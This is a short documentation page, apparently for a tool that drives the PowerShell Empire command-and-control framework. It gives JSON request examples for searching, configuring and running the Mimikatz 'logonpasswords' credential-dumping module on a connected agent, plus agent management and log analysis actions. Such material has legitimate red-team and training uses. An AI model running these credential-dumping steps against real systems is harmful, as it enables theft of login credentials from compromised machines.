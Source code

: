 ### Module Management
```bash
# Search modules
{
  "action": "search_modules",
  "search_term": "mimikatz",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Show module info
{
  "action": "show_module_info",
  "module_name": "powershell/credentials/mimikatz/logonpasswords",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Set module options
{
  "action": "set_module_options",
  "module_name": "powershell/credentials/mimikatz/logonpasswords",
  "module_options": {
    "Agent": "agent_001"
  },
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Run module
{
  "action": "run_module",
  "module_name": "powershell/credentials/mimikatz/logonpasswords",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### Agent Management
```bash
# Agent management
{
  "action": "agent_management",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### Log Analysis
```bash
# Analyze logs
{
  "action": "log_analysis",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```
